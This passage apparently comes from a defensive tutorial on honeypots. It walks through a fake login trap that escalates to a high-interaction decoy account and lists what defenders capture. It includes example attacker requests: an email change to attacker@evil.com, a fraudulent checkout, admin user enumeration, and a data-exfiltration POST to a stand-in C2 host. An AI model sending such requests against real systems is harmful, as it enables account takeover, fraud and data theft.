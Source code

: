 **Your honeypot responds**:
```json
{ "success": true, "session_token": "honey-trap-abc123" }
```

**Success!** The attacker thinks they've compromised an account.

### What You Capture (Low-Interaction Phase)

**Every login attempt logs**:
- All usernames tried (reveals credential list being used)
- All passwords tried (password patterns, common choices)
- Source IP and infrastructure
- Rate of attempts (500/minute = automated)
- User-agent fingerprints

**Key insight**: The password `P@ssw0rd!` worked for honey account
- This means: That credential pair came from a breach
- Action: Force password reset for ALL users with password `P@ssw0rd!`

### Escalation to High-Interaction

**When attacker successfully logs into honey account → silently escalate**

**Attacker now sees** (High-interaction VM):
- Full account dashboard
- Fake order history: "You bought headphones 3 months ago"
- Stored payment method: "Visa ••••1234"
- "My Account" settings with editable fields
- Fake admin API link (bait)

### What You Capture (High-Interaction Phase)

**Now you record EVERYTHING**:

**Attacker action**: Changes email address
```
POST /account/update
{ "email": "attacker@evil.com" }
```
✅ Captured: Their email address

**Attacker action**: Tries to order something
```
POST /checkout/complete
{ "product_id": 12345, "use_stored_payment": true }
```
✅ Captured: They tried to make fraudulent purchase

**Attacker action**: Explores admin API
```
GET /api/admin/users/list?limit=1000
```
✅ Captured: They're looking for privilege escalation

**Attacker action**: Attempts to exfiltrate data
```
POST https://attacker-c2.com/exfil
{ "stolen_data": { ... } }
```
✅ Captured: Their C2 server address `attacker-c2.com`

